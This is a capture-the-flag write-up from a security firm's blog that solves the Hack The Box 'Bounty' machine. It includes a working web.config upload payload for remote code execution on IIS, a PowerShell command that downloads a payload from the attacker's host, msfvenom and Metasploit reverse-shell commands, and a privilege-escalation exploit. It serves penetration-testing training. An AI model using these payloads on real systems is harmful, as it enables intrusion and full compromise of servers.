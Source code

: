 ```yaml
---
slug: bounty-writeup/
title: Bounty Writeup
date: 2018-10-29
category: attacks
subtitle: How to resolve HTB Bounty
tags: cybersecurity, exploit, vulnerability, web, training
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
alt: Hand holding a pirate toy
description: In this article, we present how to exploit a Bounty machine's vulnerabilities and how to gain access as an Administrator and obtain the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities, Hacker, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: Be formless, shapeless like water, Bruce Lee
source: https://unsplash.com/photos/NctO2nqkWCY
---
```


## Scanning Phase

First, we check the IP of the
[Bounty](https://www.hackthebox.eu/home/machines/profile/142) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp)

</div>

**ping.**

``` bash
host$ ping -c2 10.10.10.93
```

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping\_trcnb5.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

``` bash
host$ nmap 10.10.10.93
```

And, we see that there is only one port open `port 80`.

<div class="imgblock">

![nmap](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp)

</div>

Then, we try to access `port 80` with our browser, and it opens a web
page with an image of Merlin.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp)

</div>

As we see on this page, there is nothing more than an image, so we’re
going to scan the whole web server with `dirbuster` to see if we can
access something useful.

``` bash
host$ dirb http://10.10.10.91
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp)

</div>

Here we found a folder where uploaded files are stored. We need the page
of the upload functionality. With `dirbuster`, and some options, we can
set different extensions and obtain what we are looking for. Since this
is a `Windows` machine, we are going to use `asp` and `aspx` extensions.

``` bash
host$ dirb http://10.10.10.91 -X .asp,.aspx
```

<div class="imgblock">

![dirb-scan2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp)

</div>

## Getting user

In the last step we got an upload page, but with no further
instructions. There we can try to upload an image and check the result.

<div class="imgblock">

![upload1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

But if we try with a webshell in `aspx` or `asp` it returns an error.

<div class="imgblock">

![upload2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp)

</div>

The web server has a filter that possibly checks the extension of the
uploaded file. If you try with double extension it won’t work either.

So what can we do? In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`. We already tried the `asp` and `aspx`
extensions, what happens if we upload a `web.config` file?

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

<div class="imgblock">

![upload11](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

We can see the result is positive. The `web.config` file is used by
`IIS` servers to store settings that come with the installation of the
`API`.

With this, we can start to exploit this machine. There is a
vulnerability on the `web.config` file processing that could allow an
attacker to execute code remotely, by injecting `asp` code in the file
(More information can be found
[here](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
).

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/red-teaming/"
title="Get started with Fluid Attacks' Red Teaming solution right now"
/>
</div>

So, in order to have remote code execution (`RCE`), we need to add the
following lines to our `web.config` file:

``` text
  <!--
  <%
  Response.write("-"&"->")
  Response.write("</p><pre>")
  Set wShell1 = CreateObject("WScript.Shell")
  Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
  output1 = cmd1.StdOut.Readall()
  set cmd1 = nothing: Set wShell1 = nothing
  Response.write(output1)
  Response.write("</pre><p><!-"&"-")
  %>
  -->
```

Then, we upload it, and access the file via the web, as before.

<div class="imgblock">

![rce-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp)

</div>

**Eureka\!** With this, we can have our user flag, but we want an active
shell that we can use for further enumeration. For this, we can use
`msfvenom`. This is a tool that creates payloads in order to gain access
to a machine. It is installed by default on `Kali`; it also comes with
the installation of `Metasploit`. Then, we upload our file to the server
with our `RCE` and start a web server on our side to download our
exploit.

First, the exploit with msfvenom:

``` bash
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
```

This will create a malicious file. When executed on the server it will
give us a reverse shell with our `RCE` file using `meterpreter`. This is
an advanced, dynamically extensible payload that uses in-memory `DLL`
injection stagers, and is extended over the network at runtime.

Then we need to start a web server in our machine. We can do it with
`Python` by running:

``` bash
host$ python -m SimpleHTTPServer 7000
```

To make the server download our file, we can use the next `PowerShell`
command in our `web.config` file replacing the `whoami` one:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
```

Upload it, and then open it on a private tab. Now, we can see that the
server downloaded our file.

<div class="imgblock">

![download](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp)

</div>

Then we need to start our listener. We can use `Metasploit` to do it:

``` bash
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
```

With this, we are ready to initiate our reverse shell. In order to do
it, we need to run our exploit on the server with the same `RCE` method
as before, changing the command to the following:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
```

Upload it, open the page of the `web.config` file and we have our
reverse shell.

<div class="imgblock">

![reverse-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp)

</div>

## Getting root

With `meterpreter` we can start to enumerate the server.

<div class="imgblock">

![sys-info](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp)

</div>

And, we see that the server has an `x64 Architecture`. We are going to
repeat the process (`msfvenom`, `upload`, `handler`, `run`) but now with
the payload:

``` text
windows/x64/meterpreter/reverse_tcp
```

Then, when we have another session opened, we are going to run the next
one:

``` bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

<div class="imgblock">

![exploit-suggester](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp)

</div>

Here we got some exploits that we can use to elevate to `Administrator`,
we are going to use the first one with:

``` bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
```

When it finishes, we will have a new session created and with user `NT
Authority\System`.

<div class="imgblock">

![admin](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp)

</div>

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability with the
`web.config` file. We also learned to always check the architecture when
we access a machine as a user, and how to use some of the `meterpreter`
commands.
